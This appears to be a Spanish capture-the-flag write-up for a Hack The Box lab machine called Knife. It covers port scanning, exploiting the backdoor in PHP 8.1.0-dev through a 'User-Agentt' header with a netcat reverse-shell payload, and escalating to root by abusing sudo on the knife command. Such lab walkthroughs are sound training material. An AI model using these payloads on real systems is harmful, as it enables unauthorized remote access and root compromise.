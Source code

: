 # Knife

<h1 align="center">
  <br>
  <img src="images/knife.png" alt="Knife">
  <br>
</h1>

***
**Machine IP**: 10.10.10.242

**DATE**  : 5/06/2021
***
## Reconocimiento
Primero hacemos un escaneo de puertos para saber cuales están abiertos y conocer sus servicios correspondientes
## Nmap 
```console
┌──(j3sm0n㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.242                                                                 148 ⨯ 1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-07 02:03 EDT
Nmap scan report for 10.10.10.242
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.02 seconds
```
Como vemos tiene el puerto 80 abierto, que es el http,  veremos en el navegador de que se trata y analizaremos la web 

## Wappalyzer
Usando la extensión wappalizer para identificar las tecnologías usadas en la web, encontramos que la web está alojado en servidor apache 2.4.41 y está construido en `php 8.1.` 

![](images/wapp.png)

### Mehod 1
Al hacer un poco de research encontramos la siguiente vulnerabilidad [PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution - PHP webapps Exploit](https://www.exploit-db.com/exploits/49933) , que se aprovecha del backdoor que fue fue dejado en esta version de PHP , haciendo uso del `User-Agent`, para ejecutar comandos.
El siguiente exploit utiliza una puerta trasera para proporcionar un pseudo shell en el host.

![](images/exploit.png)
 
 ### Method 2
Pero para no estar solo ejecutando el exploit y obteniendo una shell así de facil, haremos uso de `burpsuite` y `netcat` para establecer una shell reversa en nuestra maquina.

Estableciendo un listener en nuestra maquina

![](images/netcat.png)

## BurpSuite
Como ya sabemos que la vulnerabilidad está en agregar el User-Agent, mandaremos al repeater para ejecutar la consulta agregando `User-Agentt: zerodiumsystem('rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc ip puerto >/tmp/f');` reemplazando la ip y el puerto por tu ip y establecido en netcat, este es un payload sacado de [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings), intenté con el netcat normal, pero al parecer la maquina tenia otra versión de netcat y la de busybox me funcionó.

![](images/burp.png)

Mandamos la consulta y game over, obtenemos una `shell` con el usuario `james` y obtenemos el `user.txt`

![](images/shelljames.png)

## Escalamiento de privilegios
Luego de obtener acceso a una Shell con el usuario james, ejecutamos el comando
 ```bash
sudo -l
``` 

Para saber que comandos se pueden ejecutar con permisos `SUID`, esto habilitaría la ejecución con permisos `root`.

![](images/sudol.png)

Vemos que se puede ejecutar el comando knife con permisos de root, pero no sabemos de que se trata este comando, entonces listaremos las opciones que tiene este comando y encontramos una opción llamada `exec` que es un comando de ejecución, con el cual se puede invocar una shell.

![](images/knifeexec.png)

Ejecutamos el comando para invocar una shell
```bash
sudo /usr/bin/knife exec --exec "exec '/bin/sh -i'"
```
![](images/root.png)

**Game over!
Obtenemos acceso root y el root.txt.**

